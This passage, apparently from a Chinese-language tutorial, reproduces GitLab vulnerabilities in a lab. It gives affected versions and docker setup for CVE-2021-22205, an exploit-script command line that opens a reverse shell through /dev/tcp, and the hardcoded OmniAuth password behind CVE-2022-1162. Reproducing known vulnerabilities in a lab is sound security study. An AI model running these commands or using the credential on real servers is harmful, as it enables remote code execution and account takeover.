 11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞CVE-2021-22204的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行命令。  
  
该漏洞影响以下GitLab企业版和社区版：  
11.9 <= Gitlab CE/EE < 13.8.8  
13.9 <= Gitlab CE/EE < 13.9.6  
13.10 <= Gitlab CE/EE < 13.10.3  
### 二、环境搭建  
  
采用13.10.2版本来复现  
```
sudo docker pull gitlab/gitlab-ce:13.10.2-ce.0
sudo docker run -it -p 443:443 -p 80:80 -p 222:22 -d image_id
```  
### 三、漏洞复现  
  
使用  
https://github.com/Al1ex/CVE-2021-22205  
脚本来复现  
  
验证漏洞是否存在：  
```
python3 CVE-2021-22205.py -v true -t http://10.211.55.5
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc1W0HbOCfL3HOCAhrdz0W1jNJa6w8NPfTViaepRYA2vxtTl2H5V0OFXA/640?wx_fmt=png&from=appmsg "")  
  
反弹shell：  
```
python3 CVE-2021-22205.py -a true -t http://10.211.55.5 -c "bash -c 'bash -i >& /dev/tcp/10.211.55.3/1234 0>&1'"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKc9Kic4mhhohjmkXEbQP9xGoJ6KtbUTjEmrHicJtEoOibDKUguafYGUN49g/640?wx_fmt=png&from=appmsg "")  
## 0x07 Gitlab 硬编码漏洞（CVE-2022-1162）  
### 一、漏洞概述  
  
GitLab官方描述，系统会默认给使用了 OmniAuth 程序（例如 OAuth、LDAP、SAML）注册的帐户设置一个硬编码密码  
123qweQWE!@#000000000  
，从而允许攻击者可直接通过该硬编码密码登录并接管帐户  
。  
  
该漏洞影响以下GitLab企业版和社区版：  
14.7 <= Gitlab CE/EE < 14.7.7  
14.8 <= Gitlab CE/EE < 14.8.5  
14.9 <= Gitlab CE/EE < 14.9.2  
  
参考链接：  
  
https://xz.aliyun.com/t/11236  
### 二、环境搭建  
  
使用14.7.4版本进行复现  
  